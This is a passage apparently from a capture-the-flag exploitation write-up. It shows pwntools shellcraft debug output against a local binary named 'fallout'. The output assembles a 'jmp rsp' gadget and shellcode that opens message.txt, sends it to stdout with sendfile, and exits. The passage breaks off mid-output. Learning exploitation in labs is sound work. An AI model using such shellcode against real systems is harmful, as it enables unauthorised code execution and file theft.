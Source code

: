 Let's run our shellcraft code
```shell
pl4int3xt@archlinux ~/D/p/shellcode> python3 shellcraft.py
[+] Starting local process './fallout': pid 86826
[DEBUG] cpp -C -nostdinc -undef -P -I/usr/lib/python3.11/site-packages/pwnlib/data/includes /dev/stdin
[DEBUG] Assembling
    .section .shellcode,"awx"
    .global _start
    .global __start
    _start:
    __start:
    .intel_syntax noprefix
    .p2align 0
    jmp rsp
[DEBUG] /sbin/as -64 -o /tmp/pwn-asm-hxdxjjco/step2 /tmp/pwn-asm-hxdxjjco/step1
[DEBUG] /sbin/objcopy -j .shellcode -Obinary /tmp/pwn-asm-hxdxjjco/step3 /tmp/pwn-asm-hxdxjjco/step4
[DEBUG] cpp -C -nostdinc -undef -P -I/usr/lib/python3.11/site-packages/pwnlib/data/includes /dev/stdin
[DEBUG] Assembling
    .section .shellcode,"awx"
    .global _start
    .global __start
    _start:
    __start:
    .intel_syntax noprefix
    .p2align 0
        /* push b'message.txt\x00' */
        push 0x1010101 ^ 0x747874
        xor dword ptr [rsp], 0x1010101
        mov rax, 0x2e6567617373656d
        push rax
        /* call open('rsp', 'O_RDONLY', 'rdx') */
        push 2 /* 2 */
        pop rax
        mov rdi, rsp
        xor esi, esi /* O_RDONLY */
        syscall
        /* call sendfile(1, 'rax', 0, 0x7fffffff) */
        mov r10d, 0x7fffffff
        mov rsi, rax
        push 40 /* 0x28 */
        pop rax
        push 1
        pop rdi
        cdq /* rdx=0 */
        syscall
[DEBUG] /sbin/as -64 -o /tmp/pwn-asm-e332noer/step2 /tmp/pwn-asm-e332noer/step1
[DEBUG] /sbin/objcopy -j .shellcode -Obinary /tmp/pwn-asm-e332noer/step3 /tmp/pwn-asm-e332noer/step4
[DEBUG] cpp -C -nostdinc -undef -P -I/usr/lib/python3.11/site-packages/pwnlib/data/includes /dev/stdin
[DEBUG] Assembling
    .section .shellcode,"awx"
    .global _start
    .global __start
    _start:
    __start:
    .intel_syntax noprefix
    .p2align 0
        /* exit(status=0) */
        xor edi, edi /* 0 */
        /* call exit() */
```